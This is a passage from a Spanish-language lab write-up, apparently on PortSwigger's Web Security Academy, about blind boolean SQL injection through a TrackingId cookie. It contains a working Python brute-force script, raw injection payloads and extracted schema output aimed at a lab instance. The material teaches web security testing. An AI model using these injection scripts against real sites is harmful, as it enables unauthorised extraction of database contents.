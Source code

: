 ```
            for character in characters:
                cookies = {
                    'TrackingId': "LNchxAn9oOJqOKHw' and (select substr(string_agg(schema_name,', '),%d,1) from information_schema.schemata)='%s'-- - " % (
                    position, character),
                    'session': "9Urch8ydtajImJUb0xQSyEsITyiiKOfw"
                }

                p1.status(cookies['TrackingId'][:150])

                r = requests.get(url, cookies=cookies)

                if "Welcome back!" in r.text:
                    output += character
                    f.write(character)
                    f.flush()
                    p2.status(output)
                    break

if __name__ == '__main__':
    makeRequest()
```

`Obtenemos` todos los `esquemas` para la `base de datos actual`

```
# python sqli_conditional_response.py
[▁] Fuerza bruta: BqARFKHGTXlkQv0f' and (select substr(string_agg(schema_name,', '),38,1) from information_schema.schemata)='a'-- - 
[▅] Output: pg_catalog,+public,+information_schema
```

Identificamos el `número` de `caracteres` que hay en la consulta, el cual es de `15 caracteres`, esto lo vamos a utilizar para `obtener` las `tablas` del `esquema public`

```
Cookie: TrackingId=LNchxAn9oOJqOKHw'+and+length((select+string_agg(table_name,', ')+from+information_schema.tables+where+table_schema='public'))=15--+-+; session=U5B4rAdfDeA17C0bpxxIIgkGM6pmjjeX
```

Modificamos nuevamente el script de python para `bruteforcear` las `tablas`

```
#!/usr/bin/python3

from pwn import *
import requests, signal, time, pdb, sys, string

def def_handler(sig,frame):
    print("\n\n[!] Saliendo ...\n")
    sys.exit(1)

# Ctrl + C
signal.signal(signal.SIGINT, def_handler)

url = "https://0a4600750477326c80527b1d00dd00c0.web-security-academy.net/"
characters = "".join(sorted(set(char for char in string.printable if char.isprintable() and char != " "), key=string.printable.index))

def makeRequest():
    output = ""

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando ataque de fuerza bruta")

    time.sleep(2)

```